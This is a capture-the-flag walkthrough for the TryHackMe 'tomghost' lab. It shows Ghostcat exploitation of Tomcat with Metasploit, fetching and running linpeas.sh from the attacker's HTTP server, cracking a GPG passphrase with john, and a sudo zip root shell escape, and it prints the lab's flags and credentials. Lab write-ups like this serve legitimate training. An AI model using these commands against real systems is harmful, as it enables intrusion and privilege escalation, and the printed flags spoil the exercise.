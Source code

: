 # [tomghost](https://tryhackme.com/room/tomghost)

```
export IP=10.10.154.147
```

---

## Task 1
1. Compromise this machine and obtain user.txt.

	a. Nmap scan (`nmap -sV -sC -oN nmap/initial $IP`):
	```
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
	|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
	|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
	53/tcp   open  tcpwrapped
	8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
	| ajp-methods: 
	|_  Supported methods: GET HEAD POST OPTIONS
	8080/tcp open  http       Apache Tomcat 9.0.30
	|_http-favicon: Apache Tomcat
	|_http-title: Apache Tomcat/9.0.30
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

	b. Went to `http://$IP:8080` in the browser and found that it was running the default `Apache Tomcat/9.0.30` web server.

	c. Gobuster scan (`gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`):
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.10.3.208:8080
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.1.0
	[+] Timeout:                 10s
	===============================================================
	2022/09/25 13:07:21 Starting gobuster in directory enumeration mode
	===============================================================
	/docs                 (Status: 302) [Size: 0] [--> /docs/]
	/examples             (Status: 302) [Size: 0] [--> /examples/]
	/manager              (Status: 302) [Size: 0] [--> /manager/] 
	/http%3A%2F%2Fwww     (Status: 400) [Size: 804]               
	Progress: 57320 / 87665 (65.39%)                             ^C
	[!] Keyboard interrupt detected, terminating.
	                                                              
	===============================================================
	2022/09/25 13:16:00 Finished
	===============================================================

	```

	d. Looked up if there were any exploits for `Apache Tomcat/9.0.30`:
	```
	https://www.exploit-db.com/exploits/49039
	```

	e. Used `metasploit` to exploit the machine using the `admin/http/tomcat_ghostcat` module.
	
	f. Found a username and password for SSH:
	```
	skyfuck:8730281lkjlkjdqlksalks
	```

	g. Found the user.txt flag @ `/home/merlin/user.txt`:
	```
	THM{GhostCat_1s_so_cr4sy}
	```


2. Escalate prvileges and obtain root.txt.

	a. Started by getting `linpeas.sh` onto the target machine.
	```
	# On local machine,
	# Navigated to /usr/share/enumeration, where linpeas.sh is saved:
	cd /usr/share/enumeration
	# Started a Python3 webserver
	python3 -m http.server

	# On the target machine 
	# Wget the linpeas.sh file.
	wget http://10.6.53.245:8000/linpeas.sh
	# Make it executable (-x wasn't working)
	chmod 777 linpeas.sh
	# Execute linpeas.sh
	./linpeas.sh
	```

	b. Found a potential privilege escalation:
	```
	# https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
	/home/skyfuck/bin:/home/skyfuck/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
	New path exported: /home/skyfuck/bin:/home/skyfuck/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
	```

	c. Turns out I didn't need linpeas at all. Instead I had to take the `tryhackme.asc` and `credential.pgp` files and decrypt them.

	d. Downloaded the files onto my local machine. 
	```	
	# On local machine
	scp skyfuck@$IP:/home/skyfuck/* .
	```

	e. Use `gpg2john` to create the hash:
	```
	gpg2john tryhackme.asc > hash
	```

	f. Attempt to crack the secret phrase using `john` (i.e., JohnTheRipper):
	```
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	```

	g. Got the secret phrase: `alexandru`.

	h. Back in the target machine, I attempted to decrypt the `credential.gpg` using the found secret phrase.

	```
	# Have to first import the .asc key file
	gpg --import tryhackme.asc

	# Then we can decrypt
	gpg --decrypt credential.gpg
		Enter secret phrase: alexandru
	```

	i. Found the following username and password:
	```
	username: merlin
	password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
	```

	j. Log into the target machine using the new username and password:
	```
	ssh merlin@$IP
	```

	k. Check any sudo permissions:
	```
	sudo -l

	# Output:
	Matching Defaults entries for merlin on ubuntu:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User merlin may run the following commands on ubuntu:
	    (root : root) NOPASSWD: /usr/bin/zip
	```

	l. Went to GTFOBins and found a privesc for the `zip` command:
	```
	# https://gtfobins.github.io/gtfobins/zip/#sudo
	TF=$(mktemp -u)
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	rm $TF
	```

	m. Got root access! Found the root.txt flag @ `/root/root.txt`:
	```
	THM{Z1P_1S_FAKE}
	```

